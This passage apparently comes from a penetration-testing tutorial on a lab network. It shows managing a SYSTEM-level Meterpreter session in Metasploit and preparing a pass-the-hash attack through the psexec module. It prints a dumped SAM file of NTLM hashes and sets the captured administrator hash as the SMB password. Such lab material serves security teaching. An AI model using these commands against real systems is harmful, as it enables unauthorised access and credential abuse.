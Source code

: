 We can send the Meterpreter shell to the `background` with the same command, and
we can displayed all shells with the `sessions` command. We can then bring the
Meterpreter shell back up with, e.g. `sessions 1`. This way we can do other
things on the machine while the shell is sitting in the background for future use.

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                        Connection
  --  ----  ----                     -----------                        ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ THEPUNISHER  10.0.2.5:4444 -> 10.0.2.6:57979 (10.0.2.6
                                                                        )

msf6 exploit(windows/smb/psexec) > sessions 1
[*] Starting interaction with 1...

meterpreter >
```



### NTLM attack using an SMB hash

We do not need a domain for an NTLM attack with a password hash. We will use
the local user `administrator` and the hash value of this user's password,
which we have captured in the previous section on SMB Relay Attacks. The stored
hash values are as follows:

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ cat 10.0.2.4_samhashes.sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ecb2ddf6e131a81e61285c44d9358aaa:::
peterparker:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```

The captured hashes are **NTLMv1 hashes** with `aad3b435b51404eeaad3b435b51404ee`
being the LM and `7facdc498ed1680c4fd1448319a8c04f` being the NT part of the
hash. We need the NT part for password cracking and the whole hash (LM and NT)
for hash attacks like pass-the-hash.

We `unset` the SMB domain (or use `set SMBDomain .`) and set the `SMBUser` and
`SMBPass` values to the captured credentials:

```
msf6 exploit(windows/smb/psexec) > set SMBuser administrator
SMBuser => administrator
msf6 exploit(windows/smb/psexec) > unset SMBDomain
Unsetting SMBDomain...
[!] Variable "SMBDomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear SMBDomain
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
SMBPass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
```
